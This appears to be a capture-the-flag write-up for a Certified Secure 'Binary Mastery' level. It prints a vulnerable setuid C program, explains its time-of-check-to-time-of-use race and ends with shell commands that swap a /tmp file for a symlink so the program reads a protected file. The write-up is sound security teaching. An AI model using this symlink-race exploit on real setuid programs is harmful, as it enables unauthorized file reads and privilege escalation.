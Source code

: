 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 4"
---
```


![Logo](/assets/images/belts-black.png)


We're finally getting closer to the end of the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. This time we'll analyse another classic vulnerability - **Time of check to time of use (TOCTOU)**. At its root, the vulnerability is a class of [race condition](https://en.wikipedia.org/wiki/Race_condition). As the [Wikipedia article](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) states:
> **TOCTOU**, pronounced "TOCK too" is a class of software bug caused by changes in a system between the checking of a condition (such as a security credential) and the use of the results of that check.

The vulnerability in this level is actually pretty straight-forward to spot. Although race-conditions are usually difficult to exploit reliably, in this case things are easier, as we'll see.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)
* [Binary Master: Lieutenant - Level 2](https://livz.github.io/2016/02/23/binary-master-lieutenant-2.html)
* [Binary Master: Lieutenant - Level 3](https://livz.github.io/2016/03/02/binary-master-lieutenant-3.html)

## 0 - Discovery

Let's see what mitigation techniques we have here, if any, using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:

```bash
$ checksec.sh --file level4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   level4
```
So both **NX bit** and **stack canary** are enabled. Sounds difficult to exploit but let's not worry just yet and have a look at the source code:

```c
/*
 * Nice replacement for 'tail -f'.
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv) {
	FILE* fp;
	char ch;
	int pos = 0;
	int len = 0;

	if (argc != 2) {
		printf("Usage: %s <file>\n", argv[0]);

		return -1;
	}
	
[1]	seteuid(getuid());                                                 
	fp = fopen(argv[1], "r");
	
	if (fp == NULL) {
		char error[50];
		snprintf(error, 49, "Error opening file %s\n", argv[1]);
		fprintf(stderr, "%s", error);       
 
		return -1;
	}
	
	fclose(fp);
[2]	seteuid(1006);    
	
	for (;;) {
[3]		fp = fopen(argv[1], "rb");

		if (fp == NULL) {
			return -1;
		}

		fseek(fp, 0, SEEK_END);
		len = ftell(fp);
	
		fseek(fp, pos, SEEK_SET);

		while (pos < len) {
			ch = fgetc(fp);
			pos++;
			printf("%c", ch);
		}

		fclose(fp);
		sleep(1);
	}

	return 0;
}
```

First, a bit about the functionality of the application:
* The code at **[1]** _sets the effective user id_ to the actual user id running the process. The effective user id is what the OS checks when making a decision whether to allow an operation or not. To understand more about real and effective user ids, check [this link](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id#32456814). 
* Basically this call will drop the privileges temporarily (remember we have a setuid program) to check if the real user has privileges to open a file or not.
*  The _seteuid()_ call at **[2]** then restores the privileges by setting the effective user id to 1006 (level5), which is the actual owner of the binary:

```
$ id
uid=1005(level4) gid=1005(level4) groups=1005(level4)
$ ls -alh /levels/level4
-rwsr-s--- 1 level5 level4 7.7K May 12 12:36 /levels/level4
```

## 1 - Vulnerability

Although the program will check if the real user has privileges to open the file specified as first parameter,
another _fopen()_ call is performed at **[3]** without any verification, basically introducing the TOCTOU vulnerability. So in order to exploit this we'll do a few simple stes:
* Create a file in the /tmp folder, for which the application will have access.
* While the application is in the _for_ loop waiting for modifications on the file, replace it with a symbolic link to /home/level5/victory. At this point the level5 privileges have been regained so we'll have read access.

## 2 - Exploit 

As said before, exploiting this is very straight-forward:

```
$ echo 123 > /tmp/file
$ /levels/level4 /tmp/file &
[1] 11482
$ ln -fs /home/level5/victory /tmp/file
```

## 3 - Profit

```

  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   
             
Subject: Victory!

Congrats, you have solved level4. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level4 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level5. If you want, you can log in
as level5 with password   [REDACTED]
```

That's it for now. The [final level](https://livz.github.io/2016/03/17/binary-master-lieutenant-5.html) which we'll see next was the most interesting for me. We'll perform a Man-in-the-Middle attack on a well-known cryptographic encryption scheme.

